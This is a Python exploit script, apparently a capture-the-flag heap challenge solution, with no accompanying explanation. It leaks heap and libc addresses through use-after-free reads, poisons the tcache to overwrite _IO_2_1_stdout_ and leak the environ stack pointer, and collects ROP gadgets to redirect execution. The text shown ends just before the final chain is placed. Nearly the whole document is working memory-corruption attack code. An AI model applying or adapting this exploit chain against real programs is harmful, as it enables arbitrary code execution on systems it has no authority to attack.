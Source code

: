 ```python


add(0,0x40,b'a\n')
delete(0)
add(1,0x40,b'a\n')
delete(0)
s=show(1)
key=u64(s+b'\x00\x00\x00')
heap=key<<12
for i in range(13):
    add(0,0x18,b'a\n')
for i in range(13):
    add(0,0x60,b'a\n')
for i in range(9):
    add(i,0xe0,b'a\n')
add(0,0x18,b'a\n')
for i in range(8):
    delete(i)
delete(8)
for i in range(7):
    add(i,0xe0,b'a'+b'\n')
add(10,0xe0,b'a'+b'\n')
for i in range(7):
    delete(i)
delete(8)
s=show(10)
addr=u64(s+b'\x00\x00')
libc.address=addr-0x203b20

nex =(libc.sym['_IO_2_1_stdout_']-0x30)^key
env=libc.sym['environ']
add(0,0xe0,b'\n')
add(5,0x300,b'a\n')
add(0,0x300,b'a\n')
delete(5)
delete(0)
add(1,0x300,b'a\n')
delete(0)
edit(1,p64(nex)+b'\n')
pop_rdi = next(libc.search(asm('pop rdi;ret;')))
pop_rsi = next(libc.search(asm('pop rsi;ret;')))
pop_rax = next(libc.search(asm('pop rax;ret;')))
pop_rcx = next(libc.search(asm('pop rcx;ret;')))
xchg_edx_eax=libc.address+0x01a7f27
syscall=libc.address+0x98fb6
wfile = libc.sym['_IO_wfile_jumps']
leave_ret = next(libc.search(asm('leave;ret;')))
add(1,0x300,b'deadbeef\n')

add(2,0x300,b'aaaa\n')
payload=p64(0)*6+p64(0xfbad1800)+p64(0)*3+p64(env)+p64(env+0x20)+b'\n'
edit(2,payload)
addr=u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
log.debug(hex(addr))
ret=addr-0x130-0x8
add(5,0x300,b'\n')
delete(5)
delete(0)
nex=ret^key
edit(1,p64(nex)+b'\n')
add(1,0x300,b'\n')

add(6,0x300,b'\n')
```